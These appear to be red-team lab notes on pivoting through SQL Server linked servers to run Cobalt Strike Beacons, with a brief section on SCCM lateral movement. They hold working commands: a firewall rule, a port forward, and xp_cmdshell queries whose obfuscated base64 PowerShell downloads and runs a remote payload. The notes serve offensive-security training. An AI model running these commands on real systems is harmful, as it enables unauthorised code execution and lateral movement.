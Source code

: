 [[PowerUpSQL#Get-SQLServerLinkCrawl]]

This output shows that the link from SQL-2 to SQL-1 is configured with a local `sa` account, and that it has sysadmin privileges on the remote server.  Your level of privilege on the linked server will depend on how the link is configured.  It's worth noting that in this particular case, any user who has public read access to the SQL-2 database instance will inherit sysadmin rights on SQL-1.  We do not need to be sysadmin on SQL-2 first.

The `lwhoami` module in SQLRecon can show similar information.

[[SQLRecon#Enumerate Linked Servers]]

To execute a Beacon on SQL-1, we can pretty much repeat the same steps as previously.  However, note that SQL-1 may only be able to talk to SQL-2 and not to WKSTN-2 or any other machine in the DEV domain.

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

```
beacon> rportfwd 8080 127.0.0.1 80
```

You can use xp_cmdshell on a linked server via OpenQuery (note that you need to prepend a dummy query) for it to work.

``` sql
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```

Or you can use the "AT" syntax:

``` sql
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]
```

SQLRecon also has a convenient `lxpcmd` module. [[SQLRecon#xp_cmdshell Interaction]]

Once the payload has been executed, connect to the Beacon.

```
beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```


## SCCM Lateral Movement

---

With Full or Application Administrator privileges over a device or a collection, we can deploy scripts or applications to aid in lateral movement.  To execute a command on every device in the DEV collection, we could do `exec -n DEV -p <path>`.

